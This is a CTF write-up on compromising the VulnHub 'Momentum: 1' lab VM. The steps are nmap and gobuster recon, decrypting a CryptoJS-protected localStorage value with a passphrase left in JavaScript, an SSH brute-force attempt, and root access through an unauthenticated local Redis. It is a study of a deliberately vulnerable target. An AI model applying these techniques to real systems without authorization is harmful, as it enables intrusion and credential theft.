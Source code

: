 [vulnhub - easy/medium] momentum: 1
-----------------------------------

The first thing I do is fping to find out the machine's ip in my host-only network:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ fping -aqg 192.168.56.0/24
192.168.56.1
192.168.56.100
192.168.56.121
```

Then nmap for all ports:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ nmap -p- -T4 -oN nmap_info_allports 192.168.56.121         
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-04 21:49 -03
Nmap scan report for 192.168.56.121
Host is up (0.000054s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.26 seconds
```

Then nmap the open ports for version and service:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ nmap -p 22,80 -sC -sV -oN nmap_info_detailed 192.168.56.121 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-04 21:51 -03
Nmap scan report for 192.168.56.121
Host is up (0.00037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5c:8e:2c:cc:c1:b0:3e:7c:0e:22:34:d8:60:31:4e:62 (RSA)
|   256 81:fd:c6:4c:5a:50:0a:27:ea:83:38:64:b9:8b:bd:c1 (ECDSA)
|_  256 c1:8f:87:c1:52:09:27:60:5f:2e:2d:e0:08:03:72:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Momentum | Index 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds
```

Next up is checking the webpage being served on port 80 to see what I can get:

![momentum-1 1](./images/momentum-1-1.png)

Nothing really interesting in the source code of the website. I run exiftoon on all 4 images and get nothing out of it. The images come from '/img/' directory so I go to http://192.168.56.121/img/ to see if there's anything interesting there and there isn't.

When I click the first Image, I'm redirected to http://192.168.56.121/#img1

And see this:

![momentum-1 2](./images/momentum-1-2.png)

And when I click the image, I'm redirected to http://192.168.56.121/opus-details.php?id=demon

And see this:

![momentum-1 3](./images/momentum-1-3.png)

The url contains the "id" parameter that might be injectable, so I run sqlmap on this url and get nothing out of it.

I run gobuster in this url and this is what I find:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ gobuster dir -u http://192.168.56.121/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_dir_info -x html,txt,php

/index.html           (Status: 200) [Size: 2001]
/img                  (Status: 301) [Size: 314] [--> http://192.168.56.121/img/]
/css                  (Status: 301) [Size: 314] [--> http://192.168.56.121/css/]
/manual               (Status: 301) [Size: 317] [--> http://192.168.56.121/manual/]
/js                   (Status: 301) [Size: 313] [--> http://192.168.56.121/js/]
/server-status        (Status: 403) [Size: 279]
```

When I access the http://192.168.56.121/js/ there is a 'main.js' file available, when I click on It, this is what I see:

```javascript
function viewDetails(str) {

  window.location.href = "opus-details.php?id="+str;
}

/*
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
*/
```

Commented out there's a piece of code that uses CryptoJS (and its passphrase in clear text). I immediately think of cookies that could have been encrypted with it so I look in my localstorage to see what I can find, and I find 'U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt'. So I look for a [codepen online](https://codepen.io/gabrielizalo/pen/oLzaqx) that uses CryptoJS and allows me to change it as I want, so I do this:

![momentum-1 4](./images/momentum-1-4.png)

'auxerre-alienum##' looks like credentials to me and it must be ssh credentials, so I try to log in with these to no avail. I then create a python script to change the '#' in the supposed password to numbers as '#' might mean 'number':

```python
file = open('pass_list.txt', 'a')

for i in range(0, 10):
    file.write('alienum'+str(i)+'\n')
    for j in range(0, 10):
        string = 'alienum'+str(i)+str(j)+'\n'
        file.write(string)

file.close()
```

I try to bruteforce the ssh log in with hydra, but I have no success again.

So after trying a few things, I try to use the whole string as a password, so, with user 'auxerre' and password 'auxerre-alienum##', I manage to log in:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ ssh auxerre@192.168.56.121
auxerre@192.168.56.121's password: 
Linux Momentum 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 22 08:47:31 2021
auxerre@Momentum:~$ ls
user.txt
auxerre@Momentum:~$ 
```

The first thing I do is get the user flag:

```
auxerre@Momentum:~$ cat user.txt 
[ Momentum - User Owned ]
---------------------------------------
flag : 84157165c30ad34d18945b647ec7f647
---------------------------------------
```

I pass linpeas to the machine using the pythonHTTPserver and wget, run the tool and get:

```
redis      458  0.2  0.4  51672  9592 ?        Ssl  17:09   0:01 /usr/bin/redis-server 127.0.0.1:6379
```

So, like that, I find out that there's Redis running internally on prot 6379. My next step is to connect to this redis server and get whatever I can out of it:

```
auxerre@Momentum:~$ redis-cli -h 127.0.0.1
127.0.0.1:6379> INFO keyspace
# Keyspace                                                                                                          
db0:keys=1,expires=0,avg_ttl=0                                                                                      
127.0.0.1:6379> SELECT 0
OK                                                                                                                  
127.0.0.1:6379> KEYS *
1) "rootpass"                                                                                                       
127.0.0.1:6379> get rootpass
"m0mentum-al1enum##" 
```

And just like that I get a string with a pattern that looks very much like a password, given the previous password's pattern. So I try to switch user into root with that password:

```
auxerre@Momentum:~$ su root                                                                                         
Password:                                                                                                           
root@Momentum:/home/auxerre#
```

Then I cd into root and get the flag:

```
[ Momentum - Rooted ]                                                                                               
---------------------------------------                                                                             
Flag : 658ff660fdac0b079ea78238e5996e40                                                                             
---------------------------------------                                                                             
by alienum with <3
```


